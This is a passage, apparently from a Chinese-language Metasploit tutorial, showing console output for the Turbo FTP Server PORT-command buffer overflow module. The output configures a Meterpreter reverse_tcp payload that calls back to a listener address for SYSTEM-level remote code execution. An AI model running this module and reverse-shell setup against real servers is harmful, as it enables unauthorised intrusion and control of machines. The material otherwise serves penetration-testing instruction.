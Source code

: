 ```

Basic options:
  Name     Current Setting      Required  Description
  ----     ---------------      --------  -----------
  FTPPASS  mozilla@example.com  no        The password for the specified username
  FTPUSER  anonymous            no        The username to authenticate as
  RHOSTS                        yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
  RPORT    21                   yes       The target port (TCP)

Payload information:
  Avoid: 4 characters

Description:
  This module exploits a buffer overflow vulnerability found in the 
  PORT command in Turbo FTP Server 1.30.823 & 1.30.826, which results 
  in remote code execution under the context of SYSTEM.

References:
  https://www.exploit-db.com/exploits/22161
  OSVDB (85887)
```

您还可以使用 show options 命令检查其选项。

```
msf6 exploit(windows/ftp/turboftp_port) > show options

Module options (exploit/windows/ftp/turboftp_port):

   Name     Current Setting      Required  Description
   ----     ---------------      --------  -----------
   FTPPASS  mozilla@example.com  no        The password for the specified username
   FTPUSER  anonymous            no        The username to authenticate as
   RHOSTS                        yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT    21                   yes       The target port (TCP)


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.248.148  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic
```
